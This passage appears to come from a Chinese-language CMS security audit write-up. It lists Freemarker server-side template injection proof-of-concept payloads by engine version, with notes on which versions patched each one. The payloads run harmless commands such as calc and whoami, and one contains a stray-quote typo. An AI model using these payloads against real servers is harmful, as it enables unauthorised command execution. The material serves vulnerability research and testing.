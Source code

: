 2、模板注入

像这类提供了自定义模板编辑功能点的cms系统，可以看下系统引用的模板引擎如 `Thymeleaf`、`Freemarker`等，可能会存在模板注入(该系统使用的是 `Freemarker 2.3.32` 版本，我们这里整理了下该引擎历史版本可利用的POC)：

-   new()

```html
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("Calc") }
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","Calc").start()}
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc")
```

但这个利用方法在 `2.3.17` 版本以后修复了，官方对这三个类的解析做了限制。

-   API

```html
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("Calc"")}
```

利用前提：当 `api_builtin_enabled` 为true时才可使用，而该配置在`2.3.22` 版本之后默认为false。

-   `2.3.30`以下版本

```html
<#assign classloader=<<object>>.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("whoami")}
```
